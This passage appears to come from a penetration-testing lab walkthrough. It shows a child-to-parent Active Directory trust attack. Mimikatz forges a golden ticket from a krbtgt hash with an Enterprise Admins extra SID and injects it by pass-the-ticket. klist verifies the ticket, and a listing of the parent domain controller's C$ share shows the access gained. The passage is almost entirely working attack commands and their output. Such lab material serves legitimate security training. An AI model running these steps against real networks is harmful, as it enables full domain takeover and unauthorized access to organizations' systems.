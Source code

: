 Using our example:

```bash
.\mimikatz.exe
kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
User      : hacker
Domain    : LOGISTICS.INLANEFREIGHT.LOCAL (LOGISTICS)
SID       : S-1-5-21-2806153819-209893948-922872689
User Id   : 500
Groups Id : *513 512 520 518 519
Extra SIDs: S-1-5-21-3842939050-3880317879-2865463114-519 ;
ServiceKey: 9d765b482771505cbe97411065964d5f - rc4_hmac_nt
Lifetime  : 3/28/2022 7:59:50 PM ; 3/25/2032 7:59:50 PM ; 3/25/2032 7:59:50 PM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'hacker @ LOGISTICS.INLANEFREIGHT.LOCAL' successfully submitted for current session
```

Verify:

```bash
mimikatz # exit
Bye!
PS C:\Tools\mimikatz\x64> klist

Current LogonId is 0:0xd1aca

Cached Tickets: (1)

#0>     Client: hacker @ LOGISTICS.INLANEFREIGHT.LOCAL
        Server: krbtgt/LOGISTICS.INLANEFREIGHT.LOCAL @ LOGISTICS.INLANEFREIGHT.LOCAL
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 2/6/2025 11:04:55 (local)
        End Time:   2/4/2035 11:04:55 (local)
        Renew Time: 2/4/2035 11:04:55 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

Now can access the DC of the parent domain:

```bash
PS C:\tools> ls \\academy-ea-dc01.inlanefreight.local\c$
 Volume in drive \\academy-ea-dc01.inlanefreight.local\c$ has no label.
 Volume Serial Number is B8B3-0D72

 Directory of \\academy-ea-dc01.inlanefreight.local\c$

09/15/2018  12:19 AM    <DIR>          PerfLogs
10/06/2021  01:50 PM    <DIR>          Program Files
09/15/2018  02:06 AM    <DIR>          Program Files (x86)
11/19/2021  12:17 PM    <DIR>          Shares
10/06/2021  10:31 AM    <DIR>          Users
03/21/2022  12:18 PM    <DIR>          Windows
               0 File(s)              0 bytes
               6 Dir(s)  18,080,178,176 bytes free
```